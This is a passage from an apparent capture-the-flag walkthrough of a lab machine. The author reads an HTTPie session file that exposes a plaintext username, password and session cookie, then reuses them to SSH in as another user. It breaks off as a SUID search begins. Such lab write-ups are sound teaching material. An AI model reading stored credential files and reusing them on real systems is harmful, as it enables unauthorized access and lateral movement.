 This was a very unstable shell, I cannot stabilize it with no one of the "tty cheat sheet tips" (google it).

# USER:

Here I was "atlas" but I can only read with this shell. 

The next step is go to the folder `/home/atlas/.config/httpie/sessions/localhost_5000` and cat a json file on this folder.


cat admin.json
```


cat admin.json
{
"__meta__": {
"about": "HTTPie session file",
"help": "[https://httpie.io/docs#sessions](https://httpie.io/docs#sessions)",
"httpie": "2.6.0"
},
"auth": {
"password": "quietLiketheWind22",
"type": null,
"username": "silentobserver"
},
"cookies": {
"session": {
"expires": null,
"path": "/",
"secure": false,
"value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
}
},
"headers": {
"Accept": "application/json, */*;q=0.5"
}

}
```
Here is the ssh password for the "silentobserver" user


Lets connect to the machine via ssh as silentobserver:
```
ssh silentobserver@10.10.11.218
```

# SilentObserver 

I searched for SUID interesting files with
